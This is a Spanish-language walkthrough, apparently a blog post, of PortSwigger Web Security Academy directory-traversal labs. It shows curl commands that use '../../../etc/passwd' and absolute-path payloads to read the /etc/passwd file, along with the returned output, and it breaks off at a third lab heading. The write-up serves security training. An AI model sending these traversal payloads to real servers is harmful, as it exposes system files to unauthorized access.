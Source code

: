 ```yaml
---
layout: default
title: "Directory Traversal - PortSwigger"
permalink: /directory-traversal-ps/
---
```


# Directory Traversal - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

## Índice



## 1. Lab: File path traversal, simple case

Ingresamos al laboratorio y revisando el codigo fuente encontramos un enlace interesante.

```html
<img src="/image?filename=15.jpg">
```

Entonces, sabemos de la existencia de un recurso, entonces la url sería la siguiente:

```bash
https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=15.jpg
```

Y al acceder nos encontramos con lo siguiente:

![](img1.png)

Ahora lo que haremos será cambiar la parte donde dice **15.jpg** por nuestro fichero **/etc/passwd**.

![](img2.png)

Como vemos no nos muestra el contenido de manera directa, así que lo que haremos por comando usando **curl**.

```bash
└──╼ $curl https://acfc1fb41f9fd4df808cb510000f0095.web-security-academy.net/image?filename=../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

Y si vamos a la pagina del laboratio vemos que ya la tenemos resuelta :D

![](img3.png)

## 2. Lab: File path traversal, traversal sequences blocked with absolute path bypass

Revisando el codigo fuente encontramos lo siguiente:

```html
<img src="/image?filename=64.jpg">
```

Por como resolvimos el ejemplo anterior vemos que podemos obtener  el fichero en la siguiente url:

```bash
https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=64.jpg
```

Lo que haremos será hacer la consulta por **curl** del fichero **../../../etc/passwd**, pero obtenemos el siguiente error:

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=../../../etc/passwd'
"No such file"
```

Al parecer existe alguna seguridad con respecto al Directory traversal, y lo que hace puede que sea filtrar por la cadena **../** , lo que podemos hacer es usar una ruta absoluta como la siguiente.

```bash
└──╼ $curl 'https://ac041fee1e13e3c0801b0bab000c00e2.web-security-academy.net/image?filename=/etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
.....
```

## 3. Lab: File path traversal, traversal sequences stripped non-recursively

